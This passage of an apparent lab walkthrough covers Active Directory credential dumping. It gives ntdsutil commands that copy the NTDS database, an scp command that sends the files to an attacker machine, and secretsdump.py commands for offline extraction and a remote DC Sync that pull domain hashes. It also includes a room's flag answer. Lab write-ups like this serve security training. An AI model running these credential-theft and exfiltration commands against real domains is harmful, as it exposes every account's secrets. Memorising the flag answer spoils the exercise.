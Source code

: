 Command :

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

![[Pasted image 20250607232333.png]]

Now, if we check the `c:\temp` directory, we see two folders: Active Directory and registry, which contain the three files we need. Transfer them to the Local box and run the secretsdump.py script to extract the hashes from the dumped memory file.

![[Pasted image 20250608000635.png]]

Using scp for copying and sending files to attack machine

```
scp .\Active Directory root@10.10.123.233:/root/. 
```

Now we need to perform attack using `secretsdump.py`

```
python3.9 /opt/impacket/examples/secretsdump.py -security SECURITY -system SYSTEM -ntds ntds.dit local
```

![[Pasted image 20250609193907.png]]

We got the dump.

From the registry details we will get the bootkey which is the first flag 

```
Flag : 0x36c8d26ec0df8b23ce63bcefa6e2d821
```

DC Sync

The DC Sync is a popular attack to perform within an Active Directory environment to dump credentials remotely. This attack works when an account (special account with necessary permissions) or AD admin account is compromised that has the following AD permissions:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set  

An adversary takes advantage of these configurations to perform domain replication, commonly referred to as "DC Sync", or Domain Controller Sync

Command

```
python3.9 /opt/impacket/examples/secretsdump.py -just-dc-ntlm THM.red/thm@10.10.30.8
```

* What is the clear-text password for the **bk-admin** username?

From the Above command we will get the hash of all the users in that domain controller

Let's crack bk-admin hash value
